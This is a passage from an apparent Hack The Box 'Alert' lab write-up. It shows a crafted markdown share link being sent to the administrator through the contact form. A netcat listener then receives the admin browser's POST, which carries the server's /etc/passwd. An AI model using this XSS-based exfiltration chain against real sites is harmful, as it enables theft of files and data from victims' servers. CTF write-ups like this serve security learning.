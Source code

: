 ```http

</script>

-----------------------------34389943702930998061652516639--
```

Gives this link: `http://alert.htb/visualizer.php?link_share=674f4480b93313.60460970.md`

Which I can send to the administrator:

```http
POST /contact.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=contact
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=x%40x.x&message=http://alert.htb/visualizer.php?link_share=674f4480b93313.60460970.md
```

And receive on my listener:

```console
$ rlwrap nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.44 60224
POST / HTTP/1.1
Host: 10.10.14.4:443
Connection: keep-alive
Content-Length: 1960
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate

<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
```